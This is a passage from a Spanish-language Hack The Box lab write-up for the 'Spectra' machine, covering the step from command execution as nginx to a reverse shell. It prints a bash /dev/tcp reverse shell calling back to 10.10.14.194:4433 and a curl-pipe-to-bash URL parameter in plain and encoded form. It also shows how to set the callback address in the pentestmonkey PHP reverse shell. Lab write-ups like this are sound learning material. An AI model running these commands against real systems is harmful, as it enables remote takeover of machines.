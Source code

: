 ![317page80_theme_seven_404php_RCE](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/spectra/317page80_theme_seven_404php_RCE.png)

Opa, somos `nginx` y estamos en el host principal. Entablémonos una Reverse Shell:

Bueno, despues de varios intentos nos damos cuenta de que `nc` no esta instalado o no lo toma, también vemos que hay problemas con `bash`, ya que si intentamos establecer la RevSH creándonos un archivo que cuando se ejecute nos lancé la petición para la Shell no hace nada:

Creamos el archivo:

```bash
❭ cat rerere.sh
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.194/4433 0>&1
```

Creamos servidor web con `Python`:

```bash
❭ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Nos ponemos en escucha:

```bash
❭ nc -lvp 4433
listening on [any] 4433 ...
```

Y ahora en la web (podemos pasar los comandos a `URL Encode` para evitar errores de concatenación y sintaxis) le indicamos que nos descargue ese archivo y a la vez nos lo ejecute con `bash`:

```html
<!-- Sin URL encode -->
xmd=curl http://10.10.14.194:8000/rerere.sh | bash

<!-- URL Encode -->
xmd=curl%20http%3A%2F%2F10.10.14.194%3A8000%2Frerere.sh%20%7C%20bash
```

Pero al ejecutar no pasa nada, probé cambiando el path de `bash`, jugando con `sh` (pueden validar que shells hay activas en la máquina visitando el archivo `/etc/shells`), moviendo el archivo a `/tmp` y despues ejecutándolo, pero nada...

* [Moving files with **cURL**](https://stackoverflow.com/questions/16362402/save-file-to-specific-folder-with-curl-command).

Asi que recordé que `pentest monkey` tiene una Reverse Shell con `PHP`, probando con ella logramos obtener la Shell (:

* [pentestmonkey / php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

Descargamos el archivo y modificamos dentro de él los campos `ip` y `port` por los nuestros:

```php
...
$ip = '10.10.14.194';  // CHANGE THIS
$port = 4433;       // CHANGE THIS
...
```
